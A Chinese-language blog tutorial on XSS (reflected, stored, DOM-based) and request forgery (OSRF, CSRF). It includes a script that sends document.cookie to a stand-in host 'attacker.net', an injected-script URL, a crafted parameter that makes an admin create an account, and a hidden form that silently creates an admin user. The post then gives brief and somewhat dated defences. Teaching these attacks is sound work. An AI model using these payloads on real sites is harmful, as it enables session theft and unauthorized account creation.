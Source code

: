 ```yaml
---
title: XSS 和 CSRF 两种跨站攻击
layout: post
comments: true
date: 2016-11-26 19:17:15
tags: [Web安全]
categories: Web安全
description: XSS CSRF 两种 跨站 攻击
photos:
- http://ww4.sinaimg.cn/mw690/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
- http://ww4.sinaimg.cn/small/e3dde130gw1fa5qff0d0gj20zk0npk1e.jpg
---
```

差不多刚开始接触前端的时候，经常能看到一些早几年入行大牛们的简历，几乎所有人都会在简历中带上这么一句话：具备基本的 Web 安全知识（XSS / CSRF）。显然这已经成为前端人员的必备知识。

<!--more-->

非常怀念那个 SQL 注入还没有被普遍认可的年代，虽然这么多年过去了，SQL 注入并没有消失，仍然是最危险的漏洞。关于 SQL 注入的原理，可以看我之前写的文章[SQL 注入详解](http://yuren.space/blog/2016/10/01/SQL%E6%B3%A8%E5%85%A5%E8%AF%A6%E8%A7%A3/)。今天是主题是 Web 安全的另外两大杀手，XSS 和 CSRF。

## XSS 的分类

XSS 漏洞有多种形式，分为三类，反射型、保存型和基于 DOM 的 XSS 攻击。这些漏洞的基本原理都是一样的，但是确定和利用漏洞方面又存在很大的差异，下面将对这三种漏洞详细介绍。

### 反射型 XSS 漏洞

前面废话一大堆，还是没有说 XSS 漏洞到底是什么，别急，慢慢看。如果一个 Web 程序可以动态的显示用户的错误消息，就有可能会产生反射型漏洞。

用户浏览网页时发送错误，向服务器请求 URL，比如`www.xxx.com/error.php?message=sorry,an error occurred`，然后服务器根据得到的 message，**不进行过滤**，复制到错误页面的模板中：`<p>sorry,an error occurred</p>`，返回给用户。

这个漏洞有一个显著的特征，应用程序没有进行任何过滤或净化措施，就非常容易受到攻击。`www.xxx.com/error.php?message=<script>alert(1)</script>`，当用户打开错误页面时，就会出现`<p><script>alert(1)</script></p>`，弹出一个消息框。

显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。

比如攻击者构造一个这样的 URL，message 信息如下

```
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```

这样被攻击者通过访问这个恶意的 URL，就会把 cookie 发送给黑客，黑客截获 cookie，就能执行用户的任意操纵。下图是一个简易的流程图：

![](/content/images/2016/11/t5.png)

由于浏览器的同源策略，直接向 attacker.net 发送 document.cookie 是无法获得 www.xxx.com 的 cookie，因为浏览器会对不同源（域）的内容进行隔离，这就是该漏洞被称为跨站脚本的原因。

### 保存型 XSS 漏洞

保存型跨站脚本也是比较常见的漏洞，脚本通常保存在后端数据库中，不经过滤就存储并且显示给用户，此时就会出现这种漏洞。

与反射型的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者想服务器提出访问含有恶意代码数据的页面，恶意代码执行。

与反射型不同的是，保存型不需要一个专门设计的 URL 来接收 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过，也可用保存型的漏洞来获取用户 cookie 进行劫持。

还有一个不同点，反射型的漏洞，必须要等受害者登陆后，才能保证 cookie 的正常获得，而保存型的漏洞，受害者访问页面，说明已经登陆了。

举一个例子，比如某社交论坛存在保存型的 XSS 漏洞，黑客将自己的个人信息一栏修改成恶意的 JS 代码，改代码实现两个功能，首先受害者加自己为好友，其次修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行该恶意脚本，于是可怕的“蠕虫”就开始了。

### 基于 DOM 的 XSS 漏洞

前两种 XSS 漏洞，都表现一种特殊的模式，就是应用程序提取数据并返回给受害者，而基于 DOM 的 XSS 不具有这种特点，攻击者是借助于 JavaScript 来展开攻击的。

1. 用户请求一个经过专门设计的 URL，由攻击者提交，包括嵌入式的 JavaScript；
2. 服务器的响应不包含任何攻击者的脚本，同时服务器也不会对 URL 进行检测；
3. 当用户浏览这个响应时，脚本得以处理。

与反射型漏洞类似，都是对 URL 进行特殊构造，不同的是，反射型是由服务器处理 URL，而 DOM 型是由 JavaScript 脚本来处理。还以刚才那个反射型为例子，假设应用程序返回的错误页面包含以下 JS 脚本：

```
<script>
  var url = document.location;
  var message = /message=(.+)$/.exec(url)[1];
  document.wirte(message);
  //或者
  document.getElementById("show").innerHTML = message;
</script>
```

同样给受害者发送这样的链接 `www.xxx.com/error.php?message=<script>alert(1)</script>`，也可以开展 XSS 漏洞攻击。基于 DOM 的漏洞不局限与 URL，还可以是页面某个 dom 的内容，这和存储型的 XSS 又联系到一起。

## 请求伪造

在 XSS 跨站攻击中，攻击者需要获得受害者的会话令牌，请求伪造也与会话劫持相关，但是攻击者不需要知道受害者的会话令牌，就能够行驶“受害者”的权利。请求伪造有两种，本站点请求伪造（OSRF）和跨站点请求伪造（CSRF），

### OSRF

OSRF 是一种利用保存型 XSS 漏洞的攻击载荷，如果在得知应用程序对 XSS 漏洞过滤的情况下，可以尝试 OSRF 攻击。

比如这是一个某站点 POST 请求，该站点过滤 XSS 攻击，

```
POST /submit.php
Host: xxx.com
Content-Length: ..

type=question&name=get&message=mes
```

然后该信息将会被插入到如下的 HTML 中：

```
<tr>
  <td><img src="/images/question.jpg"></td>
  <td>get</td>
  <td>mes</td>
</tr>
```

这个漏洞很容易找到，直接用 type 的值来表示 jpg 的name，然后我们构造 type 的值等于下面的内容，

```
../admin/newuser.php?username=test&password=123&role=admin#
```

使用上面的介绍，相对应的构造一个表单提交，创建一个管理员权限的用户，普通用户点击是不会成功的，因为权限不够，但是如果是管理员点击该链接的话，就会创建一个秘密账户，所以，即时对 URL 禁用了 JavaScript 脚本，还是可以通过 OSRF 攻击成功。

在攻击字符串的最后使用了 # ，是为了对 .jpg 进行屏蔽，也可以添加 & 组成另一个参数。

以上便是一个简单的本站点请求伪造的例子。

### CSRF

跨站点请求伪造才是跨站伪造的重点内容，攻击者只需要创建一个看似无害的网站，致使受害者的浏览器直接向易受攻击的服务器提交一个请求，执行恶意代码。

仍然需要考虑同源策略，仍然以管理员创建新用户为例，

```
POST /newUser.php HTTP/1.1
Host: xxx.com
Cookie: SessionId=...
Content-Length: ..

name=ro&userrole=admin&password=123456&confirmpassword=123456
```

黑客构造的网站会提交一个 form 表单，并想办法让 form 隐藏：

```
<<!DOCTYPE html>
<html><body>
  <form action="http://xxx.com/newUser.php" method="POST">
    <input type="hidden" name="name" value="ro">
    <input type="hidden" name="userrole" value="admin">
    <input type="hidden" name="password" value="123456">
    <input type="hidden" name="confirmpassword" value="123456">
  </form>
</body></html>
```

当管理员已经登陆的情况下，访问这个恶意网站的时候，就会提交这段脚本，管理员都不知情。因为管理员已经登陆，无需考虑 Cookie 的问题，一个简单的 CSRF 如此。

## 总结

其实攻击很简单，主要的还是如何防御，比如

1. 对一些关键字和特殊字符进行过滤或 URL、HTML 编码，"<>?"或"script，javascript"；
2. Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；
3. 严格控制 URL 访问，对于一些挂马的 ip 和域名，强制无法访问；
4. 等等

共勉。

## 参考

>[跨站脚本攻击介绍](http://blog.csdn.net/yefan2222/article/details/7091863)
>[那些年我们一起学 XSS](https://wizardforcel.gitbooks.io/xss-naxienian/content/7.html)
>[总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
>书籍：《黑客攻防技术宝典 Web实战篇》